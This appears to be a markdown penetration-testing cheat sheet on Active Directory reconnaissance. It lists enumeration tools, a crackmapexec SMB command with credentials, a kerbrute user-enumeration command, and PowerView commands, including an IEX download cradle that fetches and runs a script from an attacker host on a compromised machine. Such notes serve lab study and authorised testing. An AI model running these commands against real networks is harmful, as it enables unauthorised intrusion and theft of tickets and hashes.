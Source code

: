 
* Helpful **Tools**:

* crackmapexec
* `enum4linux -a target_ip > enum.log`

* AD recon: https://github.com/sense-of-security/ADRecon
* Bloodhound: https://github.com/BloodHoundAD/BloodHound
* targetedKerberoast: https://github.com/ShutdownRepo/targetedKerberoast


### Crackmapexec

find machines in range where current user is admin

`cme smb 192.168.239.0/24 -u pete -p "Nexus123\!" --continue-on-success`

### Kerbrute

find users of domain via TGT requests

`./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.43.76  userlist.txt`

### PowerView

Reference: https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview


* Poverview has a lot of built-in AD functionalities
* So once a domain machine is compromised, upload and run powerview on it

```powershell

#  agentless command execution

IEX(New-Object Net.WebClient).downloadString('http://192.168.1.xxx/PowerView.ps1'); Get-NetComputer | select cn;


```

* Useful poverview commands

``` powershell
#get all computers in AD

Get-NetComputer | select cn

# users

Get-NetUser | select cn

# groups 

Get-NetGroup
```

* It is important to find high value target users and where they are currently logged in to later compromise those machines and retrieve tickets or hashes.
